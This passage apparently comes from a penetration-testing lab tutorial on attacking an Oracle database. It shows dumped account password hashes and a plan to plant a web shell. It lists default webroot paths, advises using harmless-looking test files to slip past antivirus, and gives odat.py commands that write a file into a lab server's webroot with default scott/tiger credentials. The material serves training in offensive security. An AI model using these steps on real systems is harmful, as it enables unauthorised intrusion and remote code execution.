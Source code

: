 ```
APEX_ADMINISTRATOR_ROLE
APEX_040000		       E7CE9863D7EEB0A4
SCOTT			       F894844C34402B67

51 rows selected.

SQL> exit
Disconnected from Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

```


Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.

#### Oracle RDBMS - File Upload

Oracle RDBMS - File Upload

```shell-session
cdeez@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
cdeez@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.

Oracle RDBMS - File Upload

```shell-session
cdeez@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```